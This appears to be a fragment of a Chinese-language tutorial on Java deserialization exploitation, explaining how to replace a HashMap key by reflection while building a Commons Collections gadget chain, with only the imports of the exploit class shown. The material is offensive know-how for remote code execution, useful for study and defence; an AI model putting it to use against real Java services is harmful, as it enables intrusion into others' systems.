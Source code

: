 ![image-20221008153450633](images/image-20221008153450633.png)

除了`outerMap.remove()`删除键值对，我们还可以通过替换 key 的方式进行处理。

`HashMap`将键值对存储在了`Node<K,V>[] table`中，并封装在`Node`对象里，其中`Node`是`HashMap`内部的静态类
![image-20221008161018495](images/image-20221008161018495.png)

因此我们首先需要通过反射获取到`table`字段，然后因为我们没有获取到`Node`类，所以之类需要转换为`Object`类型。最后取到数组中的 key 进行替换
```java
package com.serialize;

/**
 * Created by dotast on 2022/10/4 21:55
 */

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

```